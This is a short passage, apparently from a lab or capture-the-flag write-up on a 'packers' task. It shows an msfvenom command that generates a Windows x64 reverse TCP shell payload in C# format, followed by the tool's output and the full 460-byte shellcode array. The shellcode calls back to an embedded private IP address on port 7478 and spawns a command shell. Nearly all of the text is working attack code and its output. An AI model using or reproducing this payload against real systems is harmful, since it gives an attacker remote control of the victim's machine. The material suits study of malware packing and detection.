 We need to follow the steps from the `packers` task, let's do the following:


First, we need to create a payload using `msfvenom`:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=7478 -f csharp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of csharp file: 2368 bytes
byte[] buf = new byte[460] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,
0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,
0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,
0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,
0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,
0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,
0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,
0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,
0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,
0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,
0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,
0x32,0x00,0x00,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,
0x01,0x00,0x00,0x49,0x89,0xe5,0x49,0xbc,0x02,0x00,0x1d,0x36,
0x0a,0x0e,0x15,0x1c,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,
0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,0x89,0xea,0x68,
0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,
0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,
0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,
0x0f,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,
0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,
0xff,0xd5,0x48,0x81,0xc4,0x40,0x02,0x00,0x00,0x49,0xb8,0x63,
0x6d,0x64,0x00,0x00,0x00,0x00,0x00,0x41,0x50,0x41,0x50,0x48,
0x89,0xe2,0x57,0x57,0x57,0x4d,0x31,0xc0,0x6a,0x0d,0x59,0x41,
0x50,0xe2,0xfc,0x66,0xc7,0x44,0x24,0x54,0x01,0x01,0x48,0x8d,
0x44,0x24,0x18,0xc6,0x00,0x68,0x48,0x89,0xe6,0x56,0x50,0x41,
0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,
0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,
0x86,0xff,0xd5,0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0x0e,0x41,
0xba,0x08,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,
0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,
0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,
0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5};
```
